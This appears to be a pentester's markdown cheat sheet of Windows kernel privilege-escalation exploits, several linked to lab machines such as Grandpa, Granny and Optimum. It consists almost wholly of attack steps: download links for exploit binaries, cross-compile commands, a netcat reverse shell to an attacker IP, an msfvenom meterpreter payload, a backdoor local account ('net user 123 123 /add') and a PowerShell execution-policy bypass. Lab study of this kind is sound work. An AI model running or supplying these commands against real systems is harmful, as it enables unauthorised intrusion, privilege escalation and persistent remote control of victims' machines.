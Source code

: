 # 8. Kernel exploitation
## Repository of kernel exploit
- https://github.com/SecWiki/windows-kernel-exploits

Basics commands:
- echo %PROCESSOR_ARCHITECTURE%

Compile Windows kernel exploit on the kali box :
- i686-w64-mingw32-gcc shell.c -o shell.exe
	- x86
- x86_64-w64-mingw32-gcc shell.c -o shell.exe
	- x64

## Windows NT/2000/2003/2008/XP/Vista/7
### MS10-015 (KiTrap0D) (Not tested yet)
#### Where
- https://www.exploit-db.com/exploits/11199
- https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/11199.zip 

#### Exploit
- E-DB Note: Make sure to run "vdmallowed.exe" (pre-compiled) inside the subfolder.


## Windows XP/2003
### MS11-080 (afd.sys) (Not tested yet)
#### Where
- https://www.exploit-db.com/exploits/18176

#### Exploit (Python)
- python MS11-080.py

## Windows Server 2003
### MS09-12 --> Grandpa
#### Where:
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012

#### Exploit:
- .\pr.exe <command>
	- .\pr.exe whoami
	- .\pr.exe shell.exe
		- Reverse shell (MSFVenom)

### Token Kidnapping Local Privilege Escalation --> Granny                      
#### Where:
- https://github.com/Re4son/Churrasco
- https://www.exploit-db.com/exploits/6705
	- http://www.argeniss.com/research/Churrasco.zip
	- https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/6705.zip

#### Exploit:
- churrasco.exe -d <command_to_execute>
	- churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe 10.10.14.14 5555 -e cmd.exe"


## Windows Server 2008 R2
### MS10-059 --> Artic / Bounty
#### Where:
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

#### exploit:
- MS10-059.exe 10.10.14.3 9001 
	- Reverse shell
- unzip Churraskito_exe.zip
- Churraskito.exe "C:\windows\system32\cmd.exe" "net user 123 123 /add"

## Windows 2003/2008/7/8/2012
### MS15-051 --> Bastard / Bounty
#### Where:
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051 

#### exploit:
- unzip ms15-051.zip
- .\exploit.exe “<command>”


## Windows 7 Enterprise / Professional
### MS11-046 --> DEVEL
#### Where:
- https://www.exploit-db.com/exploits/40564

### Exploit:
- i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
- .\exploit
	- whoami

## Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
### MS16-032 → Optimum
#### Where:
- https://www.exploit-db.com/exploits/39719

#### Exploitation:
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=10000 -f exe > admin.exe
	- Need some minor modification
- powershell -nop -ep bypass z:\exploit.ps1

## Windows Server 2012 R2
### MS16-098 → Optimum
#### Where:
- https://www.exploit-db.com/exploits/41020
	- https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

#### Exploit:
- .\exploit.exe